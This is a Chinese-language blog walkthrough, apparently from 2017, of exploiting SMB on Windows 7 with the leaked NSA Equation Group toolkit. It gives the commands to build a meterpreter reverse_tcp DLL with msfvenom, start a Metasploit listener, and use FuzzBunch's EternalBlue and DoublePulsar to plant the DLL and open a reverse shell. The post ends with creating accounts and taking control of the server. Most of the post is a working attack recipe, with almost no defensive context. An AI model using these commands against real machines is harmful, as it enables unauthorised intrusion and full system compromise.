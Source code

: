 ```yaml
---
title: NSA工具包验证之SMB漏洞利用
date: 2017-06-15 12:12:59
tags: 网络安全
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.3)：开放了445端口的windows 7（windows2008与之攻击方法完全相同）

以上所有IP之间均可以直接访问

### 验证步骤：
<!--more-->
* * *

#### 第一步：生成可执行的恶意dll文件

0x01

首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：

![1.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/1.jpg "1.jpg")

0x02

执行命令：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll > s.dll
```

在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell

0x03

点击xshell如图位置

![3.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3.jpg "3.jpg")

打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图

![4.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/4.jpg "4.jpg")

#### 第二步：配置kali使得kali处于监听状态

0x01

依次输入命令
```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功

![2.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/2.jpg "2.jpg")

这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击

0x01

将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错

![5.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/5.jpg "5.jpg")

0x02

打开命令提示符，输入
```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图

![6.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/6.jpg "6.jpg")

0x03

输入命令
```
use Eternalblue
```
然后敲击回车，保持默认设置，除了下图俩需要选择，其他直接敲击回车使用默认配置即可

![7.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/7.jpg "7.jpg")

之后再敲几下回车开始攻击，得到结果如图

![8.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/8.jpg "8.jpg")

可以看到最后"Eternalblue Succeeded"显示成功，当然，不是所有攻击都会成功，需要一定运气的

0x04

输入命令
```
use Doublepulsar
```

然后会要求输入一些参数，比如系统位数、后门操作、后门路径等，除了下图中红框标出的部分，其他保持默认即可

![9.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/9.jpg "9.jpg")

接着输入后门路径，即我们之前用kali生成的s.dll，如下图

![10.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/10.jpg "10.jpg")

之后不断敲击回车开始在目标机执行s.dll，成功后如图

![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/11.jpg "11.jpg")

这时打开xshell可以看到已经成功反弹shell

![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/12.jpg "12.jpg")

然后就可以比如说输入shell模拟终端执行命令，创建账户，等等，总之服务器权限已经拿到了

![13.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/13.jpg "13.jpg")
